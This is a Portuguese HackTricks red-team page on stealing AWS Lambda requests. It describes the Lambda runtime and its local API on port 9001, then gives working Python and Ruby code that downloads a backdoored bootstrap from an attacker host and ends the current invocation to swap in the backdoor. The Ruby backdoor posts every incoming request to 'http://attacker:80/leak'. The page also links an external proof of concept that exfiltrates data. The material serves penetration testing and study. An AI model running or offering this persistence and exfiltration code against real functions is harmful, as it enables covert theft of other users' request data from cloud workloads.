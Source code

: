 # AWS - Roubar Requisições Lambda

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Introdução <a href="#python-runtime" id="python-runtime"></a>

Este ataque pressupõe que você tenha algum tipo de **acesso a um Lambda em execução**.\
Além disso, é importante notar que as **invocações Lambda não são completamente separadas umas das outras, mas são isoladas**. Elas podem rodar, embora não simultaneamente, no mesmo ambiente de execução. Com isso em mente, vamos começar a dissecar esse ambiente.

### Isolamento

O isolamento Lambda usa cgroups:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Como o prefixo 'sandbox' não corresponde a nenhum motor de contêiner comum (docker, podman, LXD, rkt), pode ser um motor de contêiner proprietário, que pode estar usando internamente um runtime de contêiner de código aberto como [runC](https://github.com/opencontainers/runc).

### Como os Lambdas funcionam  <a href="#python-runtime" id="python-runtime"></a>

Esta parece ser a arquitetura Lambda python:

<figure><img src="../../../../.gitbook/assets/image (2) (6).png" alt=""><figcaption></figcaption></figure>

1. Um processo fora do contêiner, referido como "**slicer**" no binário init, envia eventos de invocação para o processo **init** via memória compartilhada.
2. O processo init configura um servidor HTTP na porta 9001 (fixa), com vários endpoints expostos:
   1. /2018-06-01/runtime/invocation/**next** – obter o próximo evento de invocação
   2. /2018-06-01/runtime/invocation/{invoke-id}/**response** – retornar a resposta do manipulador para a invocação
   3. /2018-06-01/runtime/invocation/{invoke-id}/**error** – retornar um erro de execução
3. No `bootstrap.py`, o seguinte loop **consulta o processo init por um novo evento**, e então **chama a função do usuário** para lidar com ele (aqui, o manipulador de requisição que você fez o upload é executado).\


<figure><img src="../../../../.gitbook/assets/image (11) (4).png" alt=""><figcaption></figcaption></figure>
4. A **resposta do manipulador é então enviada de volta ao processo init** através de um dos seguintes endpoints:
   1. `/{invoke-id}/response` – se o manipulador do usuário executou com sucesso
   2. `/{invoke-id}/error` – se uma exceção foi levantada durante o manuseio da invocação

## Resumo da Técnica <a href="#python-runtime" id="python-runtime"></a>

É possível **substituir o script bootstrap** por código malicioso para ser capaz de **interceptar dados** enviados para a função Lambda.\
Note que **outros engines em outros idiomas** têm outro **script bootstrap** escrito naquele idioma, então isso pode ser feito **também em outros lambdas usando outros idiomas**, não apenas em python.

## Python <a href="#python-runtime" id="python-runtime"></a>

Do lambda, faça o download de **`/var/runtime/bootstrap.py`** (ou simplesmente inicie **seu próprio lambda** e obtenha-o) e adicione o backdoor que estará vazando todos os dados enviados para o Lambda. Você só precisa adicionar algumas linhas, como:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Substituindo o Runtime

Agora, com o novo **`bootstrap.py` criado**, é possível **baixá-lo**, **encerrar a invocação lambda atual** e executá-lo para **substituir** o legítimo:
```python
import os
from urllib import request

# Download bootstrap.py from your server
r = request.urlopen('http://attacker.com/bootstrap.py')
with open('/tmp/bootstrap.py', 'w') as f:
f.write(r.read().decode('utf-8'))

# Get invocation ID and end it
req = request.urlopen("http://127.0.0.1:9001/2018-06-01/runtime/invocation/next")
inv_id = req.headers["Lambda-Runtime-Aws-Request-Id"]
req = request.Request(f"http://127.0.0.1:9001/2018-06-01/runtime/invocation/{inv_id}/response", data=b"null")
req.add_header("Content-Type", "application/x-www-form-urlencoded")
request.urlopen(req)

# Start your bootstrap.py
os.system("python3 /tmp/bootstrap.py")
```
Ou você também pode usar [twist\_runtime.py](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/twist\_runtime.py), que terminará a invocação como feito anteriormente, executará o novo bootstrap e exfiltrará a informação.

{% hint style="warning" %}
Se uma função lambda não for usada por 5-15 minutos, ela será desligada, e todas as alterações serão perdidas na próxima vez que for invocada.
{% endhint %}

## Ruby Runtime <a href="#ruby-runtime" id="ruby-runtime"></a>

Em ruby, o arquivo que você deseja comprometer é o **`/var/runtime/lib/runtime.rb`** (obtenha-o do sistema ou executando sua própria lambda).

Adicionar um backdoor é tão simples quanto feito na versão python:
```ruby
# Add a require at the beggining
require 'json'
require 'net/http'
[...]
# In the loop where the invocation is treated
begin
context = lambdaContext.new(raw_request)
uri = URI('http://attacker:80/leak')
Net::HTTP.post(uri,JSON.generate(request))
[...]
```
Então, você só precisa fazer o que fez na versão em python com apenas uma mudança:

* **Baixe o backdoor em um diretório**
* **Symlink** `/var/runtime/lib/*` com o diretório onde o backdoor está
* Finalize a invocação lambda atual
```ruby
# You can get a ruby shell with 'irb' or run from shell with ruby -e "..."

require 'net/http'

# Downloading new script
uri = URI("http://attacker/rumtime.rb")
r = Net::HTTP.get_response(uri)
File.write("/tmp/rumtime.rb", r.body)

# Create symlink
ln -s /var/runtime/lib/* /tmp

# Terminate currrent invocation
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
req = Net::HTTP.get_response(uri)
inv_id = req.header['Lambda-Runtime-Aws-Request-Id']
uri = URI('http://127.0.0.1:9001/2018-06-01/runtime/invocation/'+inv_id+'/response')
Net::HTTP.post(uri, 'null')
```
## Referências

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Aprenda hacking em AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
